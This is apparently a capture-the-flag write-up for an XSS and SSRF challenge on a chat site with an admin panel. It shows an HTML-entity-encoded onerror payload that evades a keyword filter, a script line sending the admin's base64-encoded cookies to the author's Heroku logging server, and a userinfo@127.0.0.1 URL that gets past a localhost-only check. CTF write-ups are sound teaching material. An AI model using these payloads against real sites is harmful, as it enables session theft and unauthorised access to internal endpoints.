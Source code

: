 # Crypto Caulingo

## Challenge Description

![Challenge Description](img/description.png)

Upon clicking the provided link we see this page:

![Challenge Page](img/page1.png)

and looking at the link for the challenge it seems pretty clear what we need to do, there is an admin reading the same chat we see, and we must execute an XSS attack in order to get the flag, most likely from their cookies, as that is how the previous XSS challenges were implemented.

So, testing the chat function we can see that we can send messages normally, but trying to include a `<script>` tag will change our message to "HACKER ALERT!".

![Chat](img/chat.png)

So it seems like there is some basic anti-xss filtering in place. So the next thing to do was simply send messages and try and determine where the bounds are with what is filtered and what is not. After trying a few things it was obvious it's actually fairly leniant, img tags work fine, but it won't allow the `onload` property. `onerror` works just fine but it won't allow messages with the words "script" or "function" in them.

What it does allow just fine however, are messages encoded as HTML Entities, regardless of their contents. As a result, we can just write an arbitrary XSS payload, encode the whole thing as HTML Entities set it to the onerror property, and send away. To test this we can use:

```html
<img src="abc "onerror="alert(1)"/>
```
which, when encoded, looks like:
```html
<img src="abc" onerror="&#x61;&#x6C;&#x65;&#x72;&#x74;&#x28;&#x31;&#x29;"/>
```
and we see our alert pop up straight away!
![Alert](img/alert.png)

So now we just need a payload to grab the cookies from the targets browser and send them back to us. I have a heroku application set up for circumstances like this, which runs a simple http server which logs everything it receives. As a result, I used the following script:

```javascript
new Image().src="https://<myapp>.herokuapp.com?pagesrc="+btoa(document.cookie)
```

```html
<img src="abc" onerror="&#x6E;&#x65;&#x77;&#x20;&#x49;&#x6D;&#x61;&#x67;&#x65;&#x28;&#x29;&#x2E;&#x73;&#x72;&#x63;&#x3D;&#x22;&#x68;&#x74;&#x74;&#x70;&#x73;&#x3A;&#x2F;&#x2F;&#x3C;&#x6D;&#x79;&#x61;&#x70;&#x70;&#x3E;&#x2E;&#x68;&#x65;&#x72;&#x6F;&#x6B;&#x75;&#x61;&#x70;&#x70;&#x2E;&#x63;&#x6F;&#x6D;&#x3F;&#x70;&#x61;&#x67;&#x65;&#x73;&#x72;&#x63;&#x3D;&#x22;&#x2B;&#x62;&#x74;&#x6F;&#x61;&#x28;&#x64;&#x6F;&#x63;&#x75;&#x6D;&#x65;&#x6E;&#x74;&#x2E;&#x63;&#x6F;&#x6F;&#x6B;&#x69;&#x65;&#x29;"/>
```


which just encodes the page cookies as base 64 and makes a request to my server as an image, the request fails, but we can see the cookies in our logs.

Decode the base 64 string and we get:

```
flag=CTF{3mbr4c3_the_c00k1e_w0r1d_ord3r}; auth=TUtb9PPA9cYkfcVQWYzxy4XbtyL3VNKz
```

Which gets us our flag

# Additional Flag

There does seem to be more to this challenge, and I ended up getting a bit of a hint or I don't think I would have gotten this one all the way, so the auth cookie that we get along with the first flag actually seems to have an impact on the page. When we set this cookie in our own browser we can now see an `admin` link in the top right of the page.

![New Link](img/page2.png)

Which gives us access to an admin control panel with a few new pages.

![Admin](img/admin.png)

Unfortunately for us, both the Users and Livestreams pages are blank. However when we try to access the camera controls page, we get a 403 response with the error message:

```
Requests only accepted from 127.0.0.1
```

Which makes things a little trickier. However, if we look back at the original page, we can see the livestream is loaded as follows:

```html
<video loop="" autoplay="" muted="" src="/watch?livestream=http://cwo-xss.web.ctfcompetition.com/livestream/garden-livestream.webm">
```

The `src` attribute there looks an awful lot like it might be vulnerable to Remote (or in this case Local) File Inclusion. So by going to the link we can try something like:
```
https://cwo-xss.web.ctfcompetition.com/watch?livestream=http://127.0.0.1/admin/controls
```

However when we try that we see the following error:

![Error](img/forbidden.png)

However this actually turns out to be easy to resolve, as the parsing to check this isn't done very well, as a result we can set the username in our link to `cwo-xss.web.ctfcompetition.com` and we can fool this check right away.

Final link:

```
https://cwo-xss.web.ctfcompetition.com/watch?livestream=http://cwo-xss.web.ctfcompetition.com@127.0.0.1/admin/controls
```

And there we have it, the second flag is ours.

![flag](img/final.png)
